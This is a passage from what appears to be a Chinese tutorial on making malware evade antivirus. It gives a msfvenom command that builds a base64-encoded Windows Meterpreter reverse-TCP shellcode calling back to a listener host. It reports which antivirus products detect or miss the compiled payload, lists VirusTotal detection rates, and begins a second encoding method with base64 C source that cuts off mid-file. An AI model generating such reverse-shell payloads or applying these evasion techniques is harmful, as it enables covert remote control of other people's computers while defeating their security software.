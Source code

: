 使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**（原po火绒静态查杀会报毒，但行为检测没有反应，360全通过）。

virustotal.com查杀率为21/68（原po为28/69）。

![image-20220530152630449](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301526558.png)

### 方法8 base64加密2（VT免杀率17/67）

另外一种base64加密方式，和方法7类似，实现代码略有不同。

`base64.c`文件内容：

```c
//
//  base64.c
//  base64
//
//  Created by guofu on 2017/5/25.
//  Copyright © 2017年 guofu. All rights reserved.
//
/**
*  转解码过程
*  3 * 8 = 4 * 6; 3字节占24位, 4*6=24
*  先将要编码的转成对应的ASCII值
*  如编码: s 1 3
*  对应ASCII值为: 115 49 51
*  对应二进制为: 01110011 00110001 00110011
*  将其6个分组分4组: 011100 110011 000100 110011
*  而计算机是以8bit存储, 所以在每组的高位补两个0如下:
*  00011100 00110011 00000100 00110011对应:28 51 4 51
*  查找base64 转换表 对应 c z E z
*
*  解码
*  c z E z
*  对应ASCII值为 99 122 69 122
*  对应表base64_suffix_map的值为 28 51 4 51
*  对应二进制值为 00011100 00110011 00000100 00110011
*  依次去除每组的前两位, 再拼接成3字节
*  即: 01110011 00110001 00110011
*  对应的就是s 1 3
*/

#include "base64.h"

#include <stdio.h>
#include <stdlib.h>

// base64 转换表, 共64个
static const char base64_alphabet[] = {
    'A', 'B', 'C', 'D', 'E', 'F', 'G',
    'H', 'I', 'J', 'K', 'L', 'M', 'N',
    'O', 'P', 'Q', 'R', 'S', 'T',
    'U', 'V', 'W', 'X', 'Y', 'Z',
    'a', 'b', 'c', 'd', 'e', 'f', 'g',
    'h', 'i', 'j', 'k', 'l', 'm', 'n',
    'o', 'p', 'q', 'r', 's', 't',
    'u', 'v', 'w', 'x', 'y', 'z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
```